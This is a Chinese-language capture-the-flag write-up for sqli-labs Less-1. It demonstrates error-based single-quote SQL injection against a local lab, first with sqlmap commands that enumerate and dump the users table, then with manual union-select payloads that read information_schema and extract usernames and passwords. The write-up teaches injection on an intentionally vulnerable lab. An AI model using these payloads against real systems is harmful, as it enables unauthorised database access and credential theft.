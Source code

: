 ## [[sqli-labs](https://github.com/Audi-1/sqli-labs)] [[Less 01 - Error Based Single Quotes](http://127.0.0.1/Less-1/)] [[解题报告](https://exp-blog.com/safe/ctf/sqli-labs/less-01-error-based-single-quotes/)]

------

## 题目分析


乍一看似乎无从入手，其实注意看提示即可，提示是以数值型的 `id` 作为请求参数。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/01.png)

于是尝试在 url 中追加参数 `?id=1` ，可以看到页面回显了数据库的查询内容：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/02.png)

改变 `id` 的值，可以查到不同的内容，推测此处是注入点：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/03.png)

## 使用 sqlmap 注入（不推荐）

先尝试下使用 sqlmap 解题（非必要不推荐这种解题方式，因为对于学习 sqli 毫无帮助）。

先通过以下命令查询所有数据库：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 --dbs
```

得到 6 个数据库：

```shell
available databases [6]:
[*] challenges
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] sys
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/04.png)

然后通过以下命令查询到当前数据库为 `security`

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 --current-db
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/05.png)

再通过以下命令查询到 `security` 数据库的所有表名：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 -D security --tables
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/06.png)

得到 4 个表名：

```shell
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

很明显，`users` 表应该就是我们的目标表，通过以下命令把整个表的数据 dump 下来：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 -D security -T users --dump
```

成功脱裤，完成挑战：

```shell
Database: security
Table: users
[13 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | Dumb     | Dumb       |
| 2  | Angelina | I-kill-you |
| 3  | Dummy    | p@ssword   |
| 4  | secure   | crappy     |
| 5  | stupid   | stupidity  |
| 6  | superman | genious    |
| 7  | batman   | mob!le     |
| 8  | admin    | admin      |
| 9  | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
+----+----------+------------+
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/07.png)


## 手工注入（推荐使用 Burp 辅助）

注意标题给出了两个提示：

- Error Based
- Single Quotes

那么尝试在参数后用单引号闭合 `?id=1'` 看下效果：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/08.png)

页面报错，而且从错误信息中，我们注意到两个关键信息：

- 数据库类型是 mysql
- 错误位置是 `'1'' LIMIT 0,1` （其中 `1'` 是我们输入的内容，不难推测**输入值会自动被单引号包围**）

结合异常信息，猜测这条 SQL 应该形如：

```sql
$sql = "select username, password from user where id = '" + $_GET[id] + "' LIMIT 0,1"
```

这种 SQL 要注入其实不难：

- 先闭合单引号
- 然后用 `union` 关联查询其他表的信息 （列数可以通过 `order by` 测试，本题测试到是 3 列）
- 最后再通过行注释处理掉末尾的 `LIMIT` 即可 （ MySql 的行注释有两种方式：`#` 和 `-- `，注意**后一种方式末尾至少有一个空格** ）

于是可以构造 payload 为 ：`?id=1' union select 1, 2, 3 #` 或 `?id=1' union select 1, 2, 3 --+`

> 注意，上面的 payload 只适用于 Burp Suite。若通过浏览器注入，需要对几个特殊字符做 URL 编码：空格要编码成 `%20` ，`#` 要编码成 `%23` 。特别地，`-- ` 刚好在 URL 末尾，而末尾的空格会被浏览器自动删掉，即使编码也不会保留，此时需要利用 URL 把 `+` 识别为空格的特性，使用 `--+` 代替。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/09.png)

可以看到第 2、3 列被回显到页面，因此可以利用这两列查询我们想要的信息。

例如查询 mysql 的版本以及当前数据库，可以构造 payload 如下：

```sql
?id=1' union select 1, version(), database() #
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/10.png)

而通过这个 payload 可以查询当前数据库下的所有表名：

```sql
?id=1' union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema = (select database()) #
```

> 这里用到 mysql 的 `group_concat` 函数，其作用是把某一列的所有行值串接成一个字符串。而 `information_schema` 是系统表，可以查到数据库中的所有表结构。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/11.png)

从表名推测，`users` 就是我们的目标表，再次构造 payload 查询该表的表结构：

```sql
?id=1' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/12.png)

找到目标列名 `username` 和 `password` ，最后构造如下 payload 实现脱裤，完成挑战：

```sql
?id=1' union select 1, group_concat(username), group_concat(password) from users #
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/13.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
